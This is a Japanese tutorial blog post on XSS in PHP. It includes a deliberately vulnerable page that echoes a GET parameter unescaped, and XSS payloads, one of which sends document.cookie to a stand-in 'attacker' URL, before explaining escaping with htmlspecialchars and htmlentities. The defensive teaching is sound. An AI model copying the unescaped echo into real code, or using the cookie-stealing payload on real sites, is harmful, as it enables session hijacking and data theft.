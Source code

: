```yaml
---
title: "PHPを使ってWEBアプリケーションの脆弱性を確認する［クロスサイトスクリプティング（XSS)]"
emoji: "🌊"
type: "tech"
topics: ["html", "javascript", "php", "脆弱性", "クロスサイトスクリプティング"]
published: true
---
```


# はじめに
エンジニアの皆様、**脆弱性を正しく対策をしながらWEBアプリケーションを開発してますでしょうか？**　作成したコードに［クロスサイトスクリプティング（XSS)]が含まれていると、勝手に**プログラムを動かされたり**、**フィッシング詐欺やウイルスの発信元**になったり、他サイトへの**攻撃の踏み台**として使われたり、**個人情報が盗まれる**（**情報漏洩**）に繋がります。

今回は［**クロスサイトスクリプティング（XSS)**]をPHPのコードを使用して試したいと思います。
※クロスサイトスクリプティングはブラウザで動くスクリプトを利用した攻撃です。ブラウザでのスクリプト実行はJavaScriptを使用します。
# 確認する環境について
本記事の確認は下記の環境をローカルに作成して行いました。
> Windows10/WSL2（Ubuntu 20.04.2 LTS) + Apache 2.4.41 + PHP 7.4.3 + MariaDB 10.3.25
# クロスサイトスクリプティング（XSS)とは？
クロスサイトスクリプティング（Cross Site Scripting）は**XSS**と省略されます。
> Crossなのに「C」ではなく「X」と省略するのは X（エックス）がCross（交差）を表現する際に使われるのに由来するようです。「CSS」と省略されなくて本当によかったです。

クロスサイトスクリプティングを悪用すると「**ブラウザ上で攻撃者の用意したスクリプトが実行される**」事が可能となります。偽のフォームを表示して個人情報を入力させたり、JavaScriptを使用する事で攻撃者のサーバにリクエストを送ったりもできますので、応用すると色々と出来そうな感じがします。
## クロスサイトスクリプティング 確認コード
さっそくですがPHPのコードで確認してみたいと思います。
フォームに入力された文字列を表示（実行）させるPHPのコードです。
```php:xss_check_code.php
<?php
session_start();
?>
<html>
<head>
<title>クロスサイトスクリプティング確認</title>
</head>
<body>
<br />
<div>攻撃コード入力フォーム</div>
<form method="get">
<input type="text" name="atk"></input>
<input type="submit"></input>
</form>
--------<br />
実行コード<br />
--------<br />
<?php echo htmlspecialchars($_GET['atk']); ?><br />
--------<br />
実行内容<br />
--------<br />
<?php echo $_GET['atk']; ?><br />
--------<br />
</body>
</html>
```
## フォームにコードを入力して実行結果を確認してみます。
下記のコードでは「攻撃者のサーバにcookieの入ったリクエストを送る」という攻撃パターンを確認します。
### alret()が実行できるか確認する
```html
<script>alert('test');</script>
```
![](https://storage.googleapis.com/zenn-user-upload/ka57occgwaj9ujgxo74dx5z2nzl9)
### alert()にcookieを表示する
```html
<script>alert(document.cookie);</script>
```
![](https://storage.googleapis.com/zenn-user-upload/2e5oqsivxv7dve7usrfwra7sv9hn)
※PHPSESSIDの値はモザイクをかけています。
### 画面遷移＋奪取したcookieをパラメータに付加する
今回は確認しやすいようにwindows.open()を使用しています。実行時にポップアップの警告が出ますので許可すると新しいウィンドウでURLが開かれます。
```html
<script>window.open('http://localhost/?cookie='+document.cookie);</script>
```
![](https://storage.googleapis.com/zenn-user-upload/e4xmk8diyd9gcsjfx5scgdh0ljtg)
攻撃者のサイトに遷移させる事でクッキーを確認する手法です。攻撃者が対象者のクッキーを知れば「**セッションハイジャック攻撃**」が狙えるようになります。
# クロスサイトスクリプティングの確認方法
クロスサイトスクリプティングの確認は**入力可能なフォームを見たら「<script>alert();</script>」を入れて送信する事**がアナログですが有効な確認方法です。**攻撃者は公開されているフォーム部品にツールを使用して脆弱性が無いか確認してきます**。エスケープなどの対策を忘れている箇所が１つでも発見されると脆弱性が生まれている事になります。

※ブラウザの機能でもHTMLの改ざんは容易です。**テキスト以外のフォーム部品もValue値が変更されるなど改ざんされる可能性があります。入力された値をデータベースに格納するパターンなど、攻撃手法に合わせて全てのフォーム部品に対策を考える必要があります**。
# クロスサイトスクリプティングの対策は？
それでは**クロスサイトスクリプティングは、どう対策をすれば良いのでしょうか？**
スクリプトの実行にブラウザを使うため、**ブラウザに渡す前にブラウザで使われる符号を無効化する**事が重要です。PHPの場合は「htmlspecialchars()」もしくは「htmlentities()」を使用してブラウザに渡す事が必要です。
> **「htmlspecialchars()」「htmlentities()」の両方ともデフォルトのままではシングルクォートはエスケープされません。必ず第二引数に「ENT_QUOTES」を付けてダブルクォート・シングルクォートの両方が変換の対象となるようにしましょう**。
## htmlspecialchars()とhtmlentities()の違い
> **PHPマニュアル**
> [htmlspecialchars()](https://www.php.net/manual/ja/function.htmlspecialchars.php)
> [htmlentities()](https://www.php.net/manual/ja/function.htmlentities.php)

htmlspecialchars()とhtmlentities()は似たような動きをしますが、大きな違いは
htmlspecialchars()は「&」「" 」「'」「<」「> 」しか変換対象になりません。htmlentities()は変換可能な符号が対象となるため変換する対象が多くなります。

実際にhtmlspecialchars()とhtmlentities()を動かして確認してみます。
```php
$txt = "「&」「\"」「'」「<」「>」「©」「≠」「→」「⇔」";
echo "htmlspecialchars()\n";
echo htmlspecialchars($txt, ENT_QUOTES);
echo "\nhtmlentities()\n";
echo htmlentities($txt, ENT_QUOTES);
```
![](https://storage.googleapis.com/zenn-user-upload/w83i3k7ioyprrnj5zx6fbg5pximx)
**htmlentities()の方が、より多くの符号をエスケープしますので用途によって使い分けをすると良いでしょう。**
# まとめ
インターネット上にひとたびWEBサイトを公開すると脆弱性を狙った攻撃を不特定多数から受け続ける事になります。そして、**攻撃者は常にアプリケーションの脆弱性を狙っています**。情報漏洩がひとたび発生すれば対応などの直接的な被害だけでなく会社全体が信用を失う事となり、それを取り戻すためにかかる費用は計り知れません。
**クロスサイトスクリプティングの悪用の手法を知らなければ**、試しに「alert()」を入力してみたら成功したけど「alert()」だけでは何もできないので**対策しなくて大丈夫**。なんて根拠の無い自信を持ってしまったり 「**社内からしか接続できないシステムでIP制限がかかっているので大丈夫**」とか「**WAFが入っているから脆弱性対策は大丈夫**」という想定は、個人的にですが**甘くて安易であると思います**。エスケープの漏れがたった１か所あるだけでもサイト・システム全体に対する信頼性は失われます。脆弱性は正しく漏れなく対策を講じていく必要を感じます。


以上、PHPを使ってWEBアプリケーションの脆弱性を確認する［クロスサイトスクリプティング（XSS)] でした。いかがでしたでしょうか。脆弱性は正しく理解して対策していきたいと思います。

